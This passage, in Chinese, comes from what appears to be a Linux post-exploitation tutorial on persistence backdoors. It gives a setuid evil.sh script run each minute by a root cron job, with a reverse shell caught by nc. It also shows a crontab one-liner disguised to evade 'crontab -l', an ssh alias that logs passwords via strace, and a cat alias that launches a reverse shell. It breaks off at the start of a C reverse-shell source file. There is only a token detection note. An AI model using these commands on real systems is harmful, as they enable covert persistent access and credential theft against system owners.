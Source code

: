 并给脚本赋予相应权限：

```bash
chmod +sx /etc/evil.sh
```

Step 2：设置定时服务

```bash
crontab -e
```

输入以下内容：

```bash
# exec per min

*/1 * * * * root /etc/evil.sh
```

重启crond服务，`service crond restart`，然后使用nc接收shell。

上述方法在实际测试中成功了率较低，建议使用一句话后门：

```bash
(crontab -l;printf "*/1 * * * * /tmp/crontab_backdoor.sh;\rno crontab for `whoami`%100c\n")|crontab -
```

这种方式成功率更高，而且不易被`crontab -l`发现。

其中关于crondtab的详细原理可以参考：<https://cloud.tencent.com/developer/article/1683265>

排查手段：

```bash
# 查看可以的定时任务列表
crontab -e
```

### 5. alias欺骗（文件落地）

可以通过`alias`命令来执行特定的命令时静默运行其他程序，从而达到启动后门，记录键值等作用。2个实例：

1. 修改ssh命令，利用strace，使其具有记录ssh对read、write、connect调用的功能：

    ```bash
    alias ssh='strace -o /tmp/sshpwd-`date    '+%d%h%m%s'`.log -e read,write,connect  -s2048 ssh'
    ```

2. 利用守护进程回弹shell

   ```bash
   alias cat='cat&&/root/.shell'
   ```

回弹shell的c语言版脚本：

```c
// shell.c

#include <stdio.h>
#include <unistd.h>
#include <stdlib.h>
#include <time.h>
#include <fcntl.h>
#include <string.h>
#include <sys/stat.h>
#include <signal.h>

#define ERR_EXIT(m) 
do
{
    perror(m);
```